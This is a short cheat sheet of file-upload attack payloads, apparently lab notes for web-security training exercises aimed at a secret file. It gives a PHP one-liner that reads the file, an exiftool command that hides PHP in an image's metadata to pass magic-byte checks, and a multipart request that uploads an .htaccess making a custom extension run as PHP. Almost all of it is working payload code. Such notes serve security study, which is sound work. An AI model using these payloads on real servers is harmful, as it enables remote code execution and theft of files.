 # File Upload

PHP Basic

    <?php echo file_get_contents('/home/carlos/secret'); ?>

PHP Polygot: when it check the magic byte ("ws.png not a valid image...")

    exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" network.png -o polyglot.php

Extension restriction

    - Create an .htaccess: this will make the .foo extension to be executed as `application/x-httpd-php`. Important to change the to `text/plain`.

        ------WebKitFormBoundaryQ8Mj8OH94gGEFaGl
        Content-Disposition: form-data; name="avatar"; filename=".htaccess"
        Content-Type: text/plain
        
        AddType application/x-httpd-php .foo
